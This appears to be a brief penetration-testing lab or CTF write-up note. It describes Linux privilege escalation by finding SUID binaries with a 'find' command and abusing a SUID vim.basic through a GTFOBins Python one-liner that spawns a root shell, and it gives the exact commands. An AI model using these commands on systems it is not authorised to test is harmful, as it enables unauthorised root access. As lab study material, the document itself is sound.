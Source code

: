#### Typed "find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null" to find SUID binaries and found the following "vim.basic" set as SUID bit: 

![](../Pasted%20Images/Pasted%20image%2020220504005317.png)

#### Found "vim" in GTFOBins site and followed the instructions to run the binary and type colon to enter "enter command mode" and prepend py3 to the command as the machine only has python3 and typed ":py3 import os; os.exec("/bin/sh", "sh", "-pc", "reset; exec sh -p")" and then enter and then when asked "which terminal?" Enter "xterm" and then received a root shell: 

![](../Pasted%20Images/Pasted%20image%2020220504005408.png)

![](../Pasted%20Images/Pasted%20image%2020220504005449.png)

![](../Pasted%20Images/Pasted%20image%2020220504005525.png)

#PrivilegeEscalation #PrivilegeEscalationSUIDVIM #VIM